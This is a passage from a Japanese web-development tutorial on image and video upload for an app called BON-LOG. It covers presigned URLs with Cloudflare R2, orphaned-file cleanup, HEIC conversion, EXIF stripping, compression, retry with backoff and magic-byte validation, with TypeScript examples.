| **サーバー経由** | ブラウザ → サーバー → ストレージ | 高い | 低い |
| **クライアント直接** | ブラウザ → ストレージ（直接） | なし | 高い |

#### 各方式の詳細

**方式1: サーバー経由アップロード**

最もシンプルな方式です。ブラウザがサーバーに画像を送り、サーバーがストレージに保存します。

```
[ブラウザ] --画像データ--> [サーバー] --画像データ--> [ストレージ]
```

```typescript
// サーバー経由アップロードの例
// API Route (app/api/upload/route.ts)
export async function POST(request: NextRequest) {
  const formData = await request.formData()
  const file = formData.get('file') as File
  const buffer = Buffer.from(await file.arrayBuffer())

  // サーバーのメモリに画像データが全部載る
  await storageClient.putObject({
    Bucket: 'my-bucket',
    Key: `uploads/${file.name}`,
    Body: buffer,
  })

  return NextResponse.json({ url: '...' })
}
```

```
メリット:
- 実装が最もシンプル
- サーバー側でバリデーション・画像処理が容易
- ストレージの認証情報をクライアントに公開しない

デメリット:
- サーバーのメモリ・帯域を消費（画像データがサーバーを経由）
- Vercelの場合、リクエストサイズ制限（4.5MB）に注意
- 大量のアップロードでサーバーがボトルネックに
```

**方式2: クライアント直接アップロード**

ブラウザから直接ストレージにアップロードします。ストレージ側のCORS設定と認証情報の管理が必要です。

```
[ブラウザ] --画像データ--> [ストレージ]（サーバーを経由しない）
```

```
メリット:
- サーバー負荷がゼロ
- アップロード速度が最も速い

デメリット:
- ストレージの認証情報をクライアントに露出するリスク
- クライアント側でのバリデーションは信頼できない
- CORSの設定が複雑
- セキュリティリスクが高い
```

**方式3: プリサインドURL（BON-LOGの選択）**

サーバーが「一時的なアップロード許可証」を発行し、ブラウザがその許可証を使って直接ストレージにアップロードする方式です。

```
[ブラウザ] --「許可証ください」--> [サーバー] --「一時URL発行」--> [ストレージ]
    |                                                              |
    |              ↓ サーバーが一時URL（プリサインドURL）を返す        |
    |                                                              |
    +-----画像データを直接アップロード（一時URLを使用）-----------------+
```

> **用語解説: プリサインドURL（Pre-signed URL）とは？**
>
> 「事前に署名されたURL」という意味です。ストレージサービスの認証情報を使って生成される、一時的に有効な特別なURLです。このURLには以下の情報が含まれています。
>
> - **どのファイルに対して**: アップロード先のパス
> - **何ができるか**: アップロード（PUT）のみ、など
> - **いつまで有効か**: たとえば15分間だけ
> - **署名**: 改ざんを防ぐ暗号署名
>
> ```
> 通常のURL:
> https://bucket.r2.dev/uploads/photo.jpg
>
> プリサインドURL:
> https://bucket.r2.dev/uploads/photo.jpg
>   ?X-Amz-Algorithm=AWS4-HMAC-SHA256
>   &X-Amz-Credential=AKID.../s3/aws4_request
>   &X-Amz-Date=20240101T000000Z
>   &X-Amz-Expires=900          ← 900秒（15分）で失効
>   &X-Amz-Signature=abc123...  ← 暗号署名
> ```
>
> このURLを知っている人は、有効期限内に限り、指定された操作（アップロード等）を実行できます。有効期限が切れると、URLは無効になります。

```typescript
// プリサインドURLの生成例
import { PutObjectCommand, S3Client } from '@aws-sdk/client-s3'
import { getSignedUrl } from '@aws-sdk/s3-request-presigner'

const client = new S3Client({ /* R2設定 */ })

const command = new PutObjectCommand({
  Bucket: 'my-bucket',
  Key: `uploads/${filename}`,
  ContentType: 'image/webp',
})

// 15分間有効な一時URLを生成
const presignedUrl = await getSignedUrl(client, command, {
  expiresIn: 900,
})

// このURLをクライアントに返す
// クライアントはこのURLに直接PUTリクエストを送る
```

```
メリット:
- サーバー負荷が最小限（URL生成のみ）
- 認証情報がクライアントに露出しない
- Vercelのリクエストサイズ制限を回避できる
- セキュリティと利便性のバランスが良い

デメリット:
- 実装がやや複雑（2段階のリクエストが必要）
- サーバー側での画像処理は別途APIが必要
- URLの有効期限管理が必要
```

#### BON-LOGがプリサインドURLを選んだ理由

```
判断基準と評価:

1. Vercelの制約
   → サーバー経由: リクエストサイズ4.5MB制限に抵触
   → プリサインドURL: ストレージに直接アップロードするので制限なし

2. セキュリティ
   → クライアント直接: 認証情報が露出するリスク
   → プリサインドURL: 一時URL(15分有効)のみ公開、認証情報は安全

3. サーバー負荷
   → サーバー経由: 画像データがサーバーを経由（メモリ・帯域消費）
   → プリサインドURL: URL生成のみ（数ミリ秒で完了）

4. スケーラビリティ
   → サーバー経由: 同時アップロード数に限界
   → プリサインドURL: ストレージが直接受け付けるので高スケーラビリティ

5. 実装の複雑さ
   → サーバー経由: 最もシンプル ★
   → プリサインドURL: やや複雑だが、一度書けば安定 ★★
   → クライアント直接: CORS設定等が複雑 ★★★
```

---

### 11.15.4 技術選定の全体まとめ

BON-LOGの画像アップロード機能は、以下の組み合わせで構成されています。

**BON-LOG 画像アップロード構成:**

| カテゴリ | 技術 | 選定理由 |
|---------|------|---------|
| ストレージ | Cloudflare R2 | エグレス無料、S3互換、CDN統合 |
| 画像処理 | sharp (libvips) | 高速、メモリ効率、WebP/AVIF対応 |
| アップロード | プリサインドURL方式 | Vercel制約回避、セキュリティ、低サーバー負荷 |
| クライアント圧縮 | Canvas API（外部ライブラリ不要） | アップロード前にファイルサイズを削減 |
| 表示最適化 | next/image | 自動WebP変換、遅延読み込み、サイズ最適化 |

この構成の最大の特徴は、**コストを最小限に抑えながら、本格的な画像配信インフラを実現している**点です。個人開発やスタートアップの初期段階では、エグレス料金無料のR2 + Vercelの組み合わせにより、ほぼ無料で運用を開始できます。そして、S3互換APIを使っているため、将来トラフィックが増えてAWS S3に移行する必要が出ても、コード変更は最小限で済みます。

<details>
<summary>理解度チェック: 画像アップロードの技術選定</summary>

**Q1**: Cloudflare R2の最大のメリットは何ですか？AWS S3との最も大きな違いは？

**A1**: エグレス（データ転送出力）料金が完全無料であることです。SNSのように画像が大量に閲覧されるサービスでは、エグレス料金がストレージ料金を大幅に上回ることがあるため、この差は非常に大きいです。

**Q2**: sharpがJimpより10〜50倍速い理由は何ですか？

**A2**: sharpは内部でlibvips（C言語製の画像処理ライブラリ）を使用しているためです。C言語はJavaScriptよりも低レベルでCPUに近い処理が可能で、かつlibvipsはストリーミング処理（画像全体をメモリに読み込まず部分的に処理）を行うため、速度とメモリ効率の両方で優れています。

**Q3**: プリサインドURLのセキュリティ上の利点を2つ説明してください。

**A3**: (1) ストレージの認証情報（アクセスキー等）がクライアントに一切公開されないこと。(2) 生成されたURLには有効期限（たとえば15分）があり、期限後は使用できなくなるため、URLが漏洩しても被害が限定されること。

</details>

---

## 11.16 よくある質問（FAQ）

画像アップロード機能を開発・運用する中で、初心者が特につまずきやすいポイントをQ&A形式でまとめました。実際の開発現場で頻繁に発生する問題とその解決策を、具体的なコード付きで解説します。

| FAQカテゴリ | 内容 |
|------------|------|
| 基本編 | アップロードの仕組みに関する質問 |
| エラー対処編 | よくあるエラーとその解決方法 |
| パフォーマンス編 | 速度・サイズに関する質問 |
| セキュリティ編 | 安全性に関する質問 |
| 運用編 | 本番環境での注意点 |

### 11.16.1 基本編

**Q1: なぜ画像をデータベース（PostgreSQL）に直接保存しないのですか？**

データベースに画像のバイナリデータを保存することは技術的に可能です（PostgreSQLの`bytea`型を使えば格納できます）。しかし、実際のプロジェクトではほぼ行いません。その理由を、引っ越しの荷物に例えて説明しましょう。

```
■ データベースに画像を保存する場合（非推奨）

日常の例え:
  本棚に本だけでなく、家具や家電もすべて詰め込むようなもの
  → 本棚が重くなり、本を探すのにも時間がかかる

技術的な問題:
  1. データベースの肥大化
     → 画像1枚 500KB × 10万枚 = 約50GB
     → データベースのバックアップが巨大になる
     → バックアップに数時間かかる場合も

  2. クエリのパフォーマンス低下
     → SELECT * FROM posts で全画像データが返される
     → ネットワーク帯域の浪費
     → メモリ使用量の急増

  3. CDN配信ができない
     → データベースから毎回取得する必要がある
     → 世界中のユーザーに高速配信できない

  4. コスト
     → データベースのストレージはオブジェクトストレージの5〜10倍高価
     → Supabase: DB 8GB無料 vs R2: 10GB無料 + エグレス無料
```

```
■ オブジェクトストレージに保存する場合（推奨・BON-LOGの方式）

日常の例え:
  本棚には「本の目録」だけ置き、実際の荷物は倉庫に保管
  → 本棚はスッキリ、荷物は専用倉庫で効率的に管理

技術的なメリット:
  1. データベースはURLだけ保存（数十バイト）
     → posts テーブルの media_url: "https://r2.dev/images/abc.webp"

  2. CDNで高速配信
     → Cloudflare CDNの世界300+拠点からキャッシュ配信
     → ユーザーに最も近いサーバーから画像を返す

  3. スケーラビリティ
     → 画像が100万枚になっても、データベースは軽いまま
     → オブジェクトストレージは事実上無限にスケール

  4. コスト効率
     → R2: 10GB/月無料、エグレス無料
     → 大量の画像配信でもコストが予測可能
```

```typescript
// ❌ 悪い例: データベースに画像を直接保存
// prisma/schema.prisma
model Post {
  id       String @id @default(cuid())
  content  String
  imageData Bytes   // ← バイナリデータをDBに格納（非推奨）
  //                     500KBの画像 × 10万件 = 50GBのDB
}

// ✅ 良い例: URLだけデータベースに保存（BON-LOGの方式）
// prisma/schema.prisma
model Post {
  id       String @id @default(cuid())
  content  String?
  media    PostMedia[]  // ← URLを保持するリレーション
}

model PostMedia {
  id        String @id @default(cuid())
  postId    String @map("post_id")
  url       String   // ← "https://r2.dev/images/abc.webp" （数十バイト）
  type      String   // ← "image" or "video"
  width     Int?     // ← 表示時のレイアウト計算用
  height    Int?
  sortOrder Int      @default(0) @map("sort_order")
  post      Post     @relation(fields: [postId], references: [id], onDelete: Cascade)

  @@map("post_media")
}
```

---

**Q2: アップロード中にブラウザを閉じたらどうなりますか？**

アップロード処理の「どの段階」でブラウザが閉じられたかによって、結果が異なります。

```mermaid
flowchart LR
    subgraph S1["段階1: クライアント圧縮中"]
        B1["ブラウザで画像を圧縮"]
    end

    subgraph S2["段階2: サーバーへ送信中"]
        B2["ブラウザ送信中"] -->|送信| SV2["サーバー受信中"]
    end

    subgraph S3["段階3: サーバー処理中"]
        B3["ブラウザ閉じた"] ~~~ SV3["サーバー処理中"] -->|アップロード| R3["R2保存中"]
    end

    subgraph S4["段階4: DB更新中"]
        SV4["サーバーがDBにURL記録"]
    end
```

| 段階 | ブラウザを閉じた場合の影響 | 安全性 |
|------|------------------------|--------|
| 段階1: クライアント圧縮中 | 何も起きない。サーバーには何も送られていない | 安全。リソースの浪費なし |
| 段階2: サーバーへ送信中 | サーバーはリクエストの中断を検知。不完全なファイルは保存されない | 安全。自動的にクリーンアップ |
| 段階3: サーバー処理中（R2アップロード中） | サーバーの処理は続行される（ブラウザとは独立）。R2に画像が保存される可能性があるが、DBに記録されないため「孤立ファイル」になる | 定期クリーンアップジョブで後日削除 |
| 段階4: DB更新中 | ブラウザを閉じてもサーバー処理は完了する。レスポンスがクライアントに届かないため、ユーザーには「失敗」に見えるが、実際にはアップロードは成功している | サーバー側は正常完了 |

```typescript
/**
 * 孤立ファイル（Orphaned Files）のクリーンアップ
 *
 * 段階3で発生した「DBに記録されていないR2上のファイル」を
 * 定期的に削除するジョブの例
 *
 * ■ なぜ孤立ファイルが問題か？
 *   → ストレージ容量の無駄遣い
 *   → 長期間放置するとコストが増加
 *   → セキュリティ上、アクセス可能なファイルは最小限にすべき
 */

// lib/jobs/cleanup-orphaned-files.ts

import { prisma } from '@/lib/db'
import { listFiles, deleteFile } from '@/lib/storage'

export async function cleanupOrphanedFiles() {
  // R2上の全ファイル一覧を取得（prefixで絞り込み）
  const r2Files = await listFiles('post-images/')

  // DBに記録されているURLの一覧を取得
  const dbMedia = await prisma.postMedia.findMany({
    select: { url: true },
  })
  const dbUrls = new Set(dbMedia.map((m) => m.url))

  // R2にあるがDBにないファイルを検出
  const orphanedFiles = r2Files.filter(
    (file) => !dbUrls.has(file.url)
  )

  // 安全マージン: アップロード後24時間以内のファイルは削除しない
  // → アップロード処理がまだ進行中の可能性があるため
  const oneDayAgo = new Date(Date.now() - 24 * 60 * 60 * 1000)

  const filesToDelete = orphanedFiles.filter(
    (file) => file.lastModified < oneDayAgo
  )

  console.log(`Found ${filesToDelete.length} orphaned files to delete`)

  // 1つずつ削除（大量削除はバッチAPIを使うとより効率的）
  for (const file of filesToDelete) {
    try {
      await deleteFile(file.key)
      console.log(`Deleted orphaned file: ${file.key}`)
    } catch (error) {
      // 削除失敗はログに記録して続行
      // 次回のクリーンアップで再試行される
      console.error(`Failed to delete ${file.key}:`, error)
    }
  }

  return { deleted: filesToDelete.length, total: orphanedFiles.length }
}
```

---

**Q3: HEIC形式（iPhoneの写真）はアップロードできますか？**

iPhoneで撮影した写真はデフォルトでHEIC（High Efficiency Image Container）形式で保存されます。HEIC形式への対応は、SNSアプリにとって非常に重要です。

```
■ HEIC形式とは？

HEIC = High Efficiency Image Container
  → Apple が iOS 11（2017年）から採用した画像フォーマット
  → JPEG と比べて約50%小さいファイルサイズで同等の画質
  → しかし、ブラウザのサポートが限定的

ブラウザ対応状況（2024年時点）:
  Safari:  ✅ 対応（macOS/iOS）
  Chrome:  ❌ 非対応
  Firefox: ❌ 非対応
  Edge:    ❌ 非対応

→ つまり、HEIC画像をそのまま表示すると、
  Chrome/Firefox/Edge ユーザーには表示されない！
```

```typescript
/**
 * HEIC対応の実装方針（BON-LOG）
 *
 * 方針: アップロード時にHEICをJPEGまたはWebPに変換する
 *
 * 変換タイミングの選択肢:
 *   A. クライアント側で変換 → heic2any ライブラリを使用
 *   B. サーバー側で変換   → sharp が HEIC 入力に対応
 *
 * BON-LOGでは両方を組み合わせる:
 *   1. クライアント側: heic2any でJPEGに変換（プレビュー用）
 *   2. サーバー側: sharp でWebPに最終変換（保存・配信用）
 */

// lib/utils/heic-converter.ts
// クライアント側でのHEIC→JPEG変換

/**
 * HEIC形式のファイルをJPEG形式に変換する
 *
 * @param file - 変換元のHEICファイル
 * @returns 変換後のJPEG Fileオブジェクト
 *
 * ■ なぜクライアント側でも変換するか？
 *   → プレビュー表示のため
 *   → ブラウザのタグはHEICを表示できないことが多い
 *   → 変換後のJPEGならどのブラウザでもプレビューできる
 */
export async function convertHeicToJpeg(file: File): Promise<File> {
  // heic2any ライブラリを動的インポート
  // → ライブラリサイズが大きい（約200KB）ため、
  //   HEIC画像を選択した時だけ読み込む
  const heic2any = (await import('heic2any')).default

  // HEIC → JPEG 変換
  const jpegBlob = await heic2any({
    blob: file,           // 変換元のHEICファイル
    toType: 'image/jpeg', // 変換先のフォーマット
    quality: 0.85,        // JPEG品質（0〜1、0.85は高品質）
  })

  // Blob → File に変換（ファイル名の拡張子を.jpgに変更）
  const jpegFile = new File(
    [jpegBlob as Blob],
    file.name.replace(/\.heic$/i, '.jpg'),
    { type: 'image/jpeg' }
  )

  return jpegFile
}

// 使用例（ImageUploadコンポーネント内）
async function handleFileSelect(file: File) {
  let processedFile = file

  // HEIC形式の場合は自動変換
  if (
    file.type === 'image/heic' ||
    file.type === 'image/heif' ||
    file.name.toLowerCase().endsWith('.heic')
  ) {
    try {
      processedFile = await convertHeicToJpeg(file)
      console.log('HEIC → JPEG 変換完了')
    } catch (error) {
      console.error('HEIC変換に失敗しました:', error)
      // 変換に失敗した場合、そのままサーバーに送信
      // → サーバー側のsharpがHEICに対応している
    }
  }

  // 変換後（またはそのまま）のファイルをアップロード処理へ
  await uploadImage(processedFile)
}
```

---

**Q4: 動画のアップロードは画像と何が違いますか？**

動画アップロードは画像と比べて、ファイルサイズ・処理時間・ストレージコストが桁違いに大きいため、異なるアプローチが必要です。

**画像 vs 動画の比較:**

| 項目 | 画像 | 動画 |
|------|------|------|
| ファイルサイズ | 100KB〜4MB | 10MB〜256MB |
| 処理時間 | 数百ミリ秒 | 数秒〜数分 |
| ストレージコスト | 低い | 高い（50〜100倍） |
| CDN帯域 | 低い | 非常に高い |
| ブラウザ互換性 | ほぼ問題なし | コーデック依存 |
| サムネイル生成 | 不要 | 必要 |
| ストリーミング | 不要 | 必要（HLS/DASH） |

**BON-LOGの動画対応方針:**

| 項目 | 内容 |
|------|------|
| 投稿あたり | 画像4枚 OR 動画1本（排他的） |
| 最大サイズ | 256MB |
| 対応形式 | MP4 (H.264), WebM (VP9) |
| 再生方式 | HTML5 `<video>` タグ（プログレッシブダウンロード） |
| サムネイル | 動画の最初のフレームを自動抽出 |

```typescript
/**
 * 動画アップロードのバリデーション
 *
 * 画像と異なるポイント:
 * 1. ファイルサイズ上限が大きい（256MB）
 * 2. 対応フォーマットが限定的（MP4, WebM）
 * 3. コーデックの確認が必要
 * 4. 再生時間の制限（30秒〜3分）
 */

// lib/validation/video-validation.ts

// 動画の最大再生時間（秒）
const MAX_VIDEO_DURATION = 180  // 3分

// 対応する動画のMIMEタイプ
const ALLOWED_VIDEO_TYPES = [
  'video/mp4',   // H.264 コーデック
  'video/webm',  // VP8/VP9 コーデック
] as const

/**
 * 動画ファイルの再生時間を取得する
 *
 * ■ 仕組み
 *   1. 動画ファイルからBlobURLを生成
 *   2. HTMLVideoElement に読み込ませる
 *   3. loadedmetadata イベントで duration を取得
 *   4. 使用後にリソースをクリーンアップ
 *
 * @param file - 検証する動画ファイル
 * @returns 再生時間（秒）
 */
export function getVideoDuration(file: File): Promise<number> {
  return new Promise((resolve, reject) => {
    // 動画ファイルをブラウザで再生可能なURLに変換
    const url = URL.createObjectURL(file)

    // HTMLVideoElement を作成（画面には表示しない）
    const video = document.createElement('video')

    // メタデータ読み込み完了時のハンドラ
    video.onloadedmetadata = () => {
      // duration: 動画の再生時間（秒、小数点あり）
      const duration = video.duration

      // メモリリーク防止: BlobURLを解放
      URL.revokeObjectURL(url)

      resolve(duration)
    }

    // エラーハンドラ（破損ファイルや非対応形式）
    video.onerror = () => {
      URL.revokeObjectURL(url)
      reject(new Error('動画のメタデータを読み取れませんでした'))
    }

    // preload="metadata" で最小限のデータだけ読み込む
    // → 動画全体をダウンロードせずに duration を取得できる
    video.preload = 'metadata'
    video.src = url
  })
}

/**
 * 動画ファイルの総合バリデーション
 */
export async function validateVideoUpload(file: File): Promise<{
  valid: boolean
  error?: string
}> {
  // 1. MIMEタイプチェック
  if (!ALLOWED_VIDEO_TYPES.includes(file.type as typeof ALLOWED_VIDEO_TYPES[number])) {
    return {
      valid: false,
      error: 'MP4またはWebM形式の動画のみ対応しています',
    }
  }

  // 2. ファイルサイズチェック（256MB）
  if (file.size > 256 * 1024 * 1024) {
    return {
      valid: false,
      error: '動画は256MB以下にしてください',
    }
  }

  // 3. 再生時間チェック
  try {
    const duration = await getVideoDuration(file)
    if (duration > MAX_VIDEO_DURATION) {
      return {
        valid: false,
        error: `動画は${MAX_VIDEO_DURATION / 60}分以内にしてください（現在: ${Math.ceil(duration)}秒）`,
      }
    }
  } catch {
    return {
      valid: false,
      error: '動画ファイルが破損しているか、対応していない形式です',
    }
  }

  return { valid: true }
}
```

---

**Q5: 画像のEXIF情報（撮影場所・日時）は保存されますか？**

BON-LOGでは、アップロード時にEXIF情報を**自動的に除去**します。これはプライバシー保護のための重要な判断です。

```
■ EXIF（Exchangeable Image File Format）とは？

デジタルカメラやスマートフォンが写真に自動的に埋め込むメタデータです。

含まれる情報の例:

| 項目 | 値 | リスク |
|------|-----|--------|
| 撮影日時 | 2024-01-15 14:30:22 | |
| カメラ | iPhone 15 Pro | |
| GPS緯度 | 35.6762° N | 危険！ |
| GPS経度 | 139.6503° E | 危険！ |
| 撮影者名 | 田中太郎 | 危険！ |
| ISO感度 | 100 | |
| シャッター速度 | 1/250 | |
| 絞り値 | f/2.8 | |
| ソフトウェア | Adobe Photoshop 25.0 | |

■ なぜ除去するか？

プライバシーリスク:
  → GPS座標から自宅や職場が特定される
  → 撮影日時から行動パターンが推測される
  → カメラ情報から所有デバイスが特定される

過去の事件例:
  → SNSに投稿した写真のEXIF情報から自宅が特定されたストーカー事件
  → 有名人の位置情報がEXIFから漏洩した事例

■ BON-LOGでの対処

sharpライブラリがデフォルトでEXIF情報を除去:
  sharp(buffer).webp({ quality: 80 }).toBuffer()
  → 変換後の画像にはEXIF情報が含まれない
  → GPS座標、撮影者名などすべて自動的に消える
  → 明示的なコードを書く必要がない（sharpのデフォルト動作）
```

### 11.16.2 エラー対処編

**Q6: 「ファイルサイズが大きすぎます」エラーが出ます。どうすればいいですか？**

このエラーは、アップロードしようとしたファイルがサイズ制限を超えている場合に発生します。BON-LOGでは画像は4MB、動画は256MBが上限です。

```typescript
/**
 * ファイルサイズエラーの原因と対処法
 *
 * ■ よくある原因
 *   1. 一眼レフ/高画質スマホの写真（RAWは30〜50MB、JPEGでも10MB超）
 *   2. スクリーンショットのPNG（テキスト多めの画面は5MB超になることも）
 *   3. クライアント側圧縮が無効化されている
 *
 * ■ 対処法（ユーザー側）
 *   → BON-LOGは自動圧縮機能があるため、通常は発生しない
 *   → 発生した場合は、ブラウザの再読み込みを試す
 *
 * ■ 対処法（開発者側）
 *   → クライアント側圧縮の設定を確認
 *   → maxSizeMB の値が適切か確認
 */

// クライアント側圧縮の設定例
// BON-LOGではCanvas APIによる独自実装（外部ライブラリ不要）
// lib/client-image-compression.ts

import { compressImage, formatFileSize } from '@/lib/client-image-compression'

// ■ 圧縮の仕組み（lib/client-image-compression.ts の compressImage 関数）
//
// 1. 小さいファイル（500KB以下）は圧縮をスキップ
//    → SKIP_COMPRESSION_THRESHOLD で制御
//
// 2. 画像をCanvas APIで描画・リサイズ
//    → 長辺の最大: MAX_IMAGE_DIMENSION (1920px)
//    → 高品質なリサイズ: imageSmoothingQuality = 'high'
//
// 3. 目標サイズに収まるまで品質を調整（最大3回リトライ）
//    → 初期品質: DEFAULT_IMAGE_QUALITY (0.8)
//    → リトライ毎に COMPRESSION_QUALITY_FACTOR (0.7) を乗算
//    → 0.8 → 0.56 → 0.39 と段階的に品質を下げる
//
// 4. 結果: 10MBの写真 → 約300KB〜800KBに圧縮

async function compressAndUpload(file: File) {
  try {
    // Canvas APIで圧縮処理
    const result = await compressImage(file, {
      maxSizeMB: 1,            // 圧縮後の最大サイズ（1MB）
      maxWidthOrHeight: 1920,  // 長辺の最大ピクセル数
      quality: 0.8,            // JPEG品質（0〜1）
    })

    console.log(`圧縮前: ${formatFileSize(result.originalSize)}`)
    console.log(`圧縮後: ${formatFileSize(result.compressedSize)}`)
    console.log(`圧縮率: ${result.compressionRatio}%`)

    // 圧縮後もサイズ制限を超える場合（極めて稀）
    if (result.compressedSize > 4 * 1024 * 1024) {
      throw new Error(
        '画像の圧縮後もファイルサイズが大きすぎます。' +
        '解像度の低い画像をお試しください。'
      )
    }

    return result.file
  } catch (error) {
    console.error('画像圧縮エラー:', error)
    throw error
  }
}
```

---

**Q7: アップロードが途中で止まり「ネットワークエラー」になります**

ネットワークエラーは、クライアントとサーバー間の通信が途絶えた場合に発生します。原因は多岐にわたりますが、主要なものとその対処法を解説します。

| 原因 | 詳細 | 対処法 |
|------|------|--------|
| モバイル回線の不安定 | 電車での移動中、トンネル通過中 | 自動リトライ機能 |
| Vercelのタイムアウト | Hobby: 10秒、Pro: 60秒 | 大きなファイルはプリサインドURL方式 |
| ファイルサイズが大きすぎる | Vercelの4.5MBリクエストサイズ制限 | クライアント側で圧縮してから送信 |
| CORSエラー | R2バケットのCORS設定不備 | R2のCORS設定を確認 |
| SSL/TLS証明書の問題 | カスタムドメインの証明書期限切れ | 証明書の自動更新を設定 |

```typescript
/**
 * リトライ機能付きアップロード関数
 *
 * ■ なぜリトライが必要か？
 *   → ネットワークは本質的に不安定
 *   → 一時的な障害で失敗しても、再試行すれば成功することが多い
 *   → ユーザーに「もう一度やり直してください」と言うのはUXが悪い
 *
 * ■ Exponential Backoff（指数バックオフ）とは？
 *   リトライ間隔を指数関数的に増やす手法
 *   → 1回目の失敗: 1秒後にリトライ
 *   → 2回目の失敗: 2秒後にリトライ
 *   → 3回目の失敗: 4秒後にリトライ
 *
 *   なぜ間隔を増やすか？
 *   → サーバーが過負荷の場合、即座にリトライすると更に負荷が増す
 *   → 時間を置くことで、サーバーが回復する時間を確保する
 *
 * ■ Jitter（ジッター）とは？
 *   リトライ間隔にランダムな「ゆらぎ」を加える手法
 *   → 多数のクライアントが同時に失敗した場合、
 *     全員が同じタイミングでリトライすると再び過負荷になる
 *   → ランダム要素を加えてリトライタイミングを分散させる
 */

// lib/utils/retry-upload.ts

interface RetryOptions {
  maxRetries: number      // 最大リトライ回数
  initialDelay: number    // 初回のリトライ待機時間（ミリ秒）
  maxDelay: number        // 最大のリトライ待機時間（ミリ秒）
  onRetry?: (attempt: number, error: Error) => void  // リトライ時のコールバック
}

const DEFAULT_OPTIONS: RetryOptions = {
  maxRetries: 3,
  initialDelay: 1000,   // 1秒
  maxDelay: 10000,       // 10秒
}

/**
 * 指数バックオフ + ジッター付きの待機時間を計算
 *
 * @param attempt - 現在の試行回数（0始まり）
 * @param initialDelay - 初回の待機時間
 * @param maxDelay - 最大の待機時間
 * @returns 待機時間（ミリ秒）
 *
 * 計算例:
 *   attempt=0: 1000 * 2^0 = 1000ms + ジッター → 約1000〜1500ms
 *   attempt=1: 1000 * 2^1 = 2000ms + ジッター → 約2000〜3000ms
 *   attempt=2: 1000 * 2^2 = 4000ms + ジッター → 約4000〜6000ms
 */
function calculateDelay(
  attempt: number,
  initialDelay: number,
  maxDelay: number
): number {
  // 指数バックオフ: initialDelay * 2^attempt
  const exponentialDelay = initialDelay * Math.pow(2, attempt)

  // 最大値を超えないようにクランプ
  const clampedDelay = Math.min(exponentialDelay, maxDelay)

  // ジッター: 0〜50%のランダムな追加時間
  const jitter = clampedDelay * Math.random() * 0.5

  return clampedDelay + jitter
}

/**
 * リトライ機能付きのアップロード関数
 */
export async function uploadWithRetry(
  uploadFn: () => Promise<Response>,
  options: Partial<RetryOptions> = {}
): Promise<Response> {
  const opts = { ...DEFAULT_OPTIONS, ...options }
  let lastError: Error | null = null

  for (let attempt = 0; attempt <= opts.maxRetries; attempt++) {
    try {
      const response = await uploadFn()

      // HTTPステータスコードの確認
      if (response.ok) {
        return response  // 成功
      }

      // 429（Too Many Requests）の場合はリトライ対象
      if (response.status === 429) {
        // Retry-After ヘッダーがあればその時間を使う
        const retryAfter = response.headers.get('Retry-After')
        if (retryAfter) {
          await sleep(parseInt(retryAfter, 10) * 1000)
          continue
        }
      }

      // 4xx エラー（クライアントエラー）はリトライしない
      // → 同じリクエストを送っても結果は変わらない
      if (response.status >= 400 && response.status < 500 && response.status !== 429) {
        const errorData = await response.json().catch(() => ({}))
        throw new Error(errorData.error || `アップロードに失敗しました（${response.status}）`)
      }

      // 5xx エラー（サーバーエラー）はリトライ対象
      lastError = new Error(`サーバーエラー（${response.status}）`)
    } catch (error) {
      lastError = error instanceof Error ? error : new Error(String(error))

      // ネットワークエラー（TypeError: Failed to fetch）もリトライ対象
      if (
        error instanceof TypeError &&
        error.message.includes('Failed to fetch')
      ) {
        // ネットワークエラーはリトライ可能
      } else if (
        !(lastError.message.includes('サーバーエラー'))
      ) {
        // その他のエラー（バリデーションエラー等）はリトライしない
        throw lastError
      }
    }

    // 最後の試行でなければリトライ
    if (attempt < opts.maxRetries) {
      const delay = calculateDelay(attempt, opts.initialDelay, opts.maxDelay)
      console.log(
        `アップロードリトライ: ${attempt + 1}/${opts.maxRetries} ` +
        `(${Math.round(delay)}ms後)`
      )
      opts.onRetry?.(attempt + 1, lastError!)
      await sleep(delay)
    }
  }

  // 全リトライ失敗
  throw lastError || new Error('アップロードに失敗しました')
}

/** 指定ミリ秒だけ待機するヘルパー関数 */
function sleep(ms: number): Promise<void> {
  return new Promise((resolve) => setTimeout(resolve, ms))
}
```

```typescript
// 使用例: コンポーネントでの利用

// components/post/ImageUpload.tsx
'use client'

import { uploadWithRetry } from '@/lib/utils/retry-upload'
import { useState } from 'react'

export function ImageUpload() {
  const [status, setStatus] = useState<string>('')
  const [retryCount, setRetryCount] = useState(0)

  async function handleUpload(file: File) {
    setStatus('アップロード中...')
    setRetryCount(0)

    try {
      const formData = new FormData()
      formData.append('file', file)

      const response = await uploadWithRetry(
        // アップロード関数（リトライ対象）
        () => fetch('/api/upload', {
          method: 'POST',
          body: formData,
        }),
        // リトライオプション
        {
          maxRetries: 3,
          onRetry: (attempt) => {
            setRetryCount(attempt)
            setStatus(`再試行中... (${attempt}/3)`)
          },
        }
      )

      const data = await response.json()
      setStatus('アップロード完了!')
      return data.url
    } catch (error) {
      const message = error instanceof Error ? error.message : 'エラーが発生しました'
      setStatus(`エラー: ${message}`)
      throw error
    }
  }

  return (
    <div>
      {status && <p className="text-sm text-muted-foreground">{status}</p>}
      {retryCount > 0 && (
        <p className="text-xs text-yellow-600">
          ネットワークが不安定です。自動的に再試行しています...
        </p>
      )}
    </div>
  )
}
```

---

**Q8: 「対応していないファイル形式です」と表示されますが、JPEGファイルのはずです**

このエラーは、ファイルの拡張子とファイルの中身（マジックバイト）が一致しない場合に発生します。

```
■ なぜ拡張子だけでは判断できないのか？

ファイルの拡張子は「ラベル」のようなもので、簡単に変更できます:
  1. "malware.exe" → "photo.jpg" に名前変更
     → 拡張子は.jpgだが、中身は実行ファイル
  2. ファイルをダウンロードするソフトが間違った拡張子を付ける場合
  3. メール転送時に拡張子が変わる場合

BON-LOGのマジックバイト検証:
  → ファイルの先頭数バイトを読み、ファイル形式を判定
  → 拡張子ではなく「ファイルの中身」で判断

JPEG のマジックバイト: FF D8 FF（先頭3バイト）
PNG のマジックバイト:  89 50 4E 47（先頭4バイト）
WebP のマジックバイト: 52 49 46 46 ... 57 45 42 50

■ ユーザーが正しいJPEGファイルなのにエラーが出る場合

原因1: ファイルが破損している
  → ダウンロード中にネットワークが切断された
  → 対処: ファイルを再ダウンロード

原因2: 拡張子が.jpgだが実際はPNG
  → スクリーンショットを.jpgに名前変更した
  → 対処: 拡張子を.pngに変更、またはそのままアップロード
         （BON-LOGはPNGも対応）

原因3: CMYKカラーモードのJPEG
  → 印刷用に加工されたJPEG（特殊なヘッダー）
  → 対処: 画像編集ソフトでRGBに変換して再保存
```

### 11.16.3 パフォーマンス編

**Q9: アップロードが遅いです。速くする方法はありますか？**

アップロード速度に影響する要因と、それぞれの最適化方法を解説します。

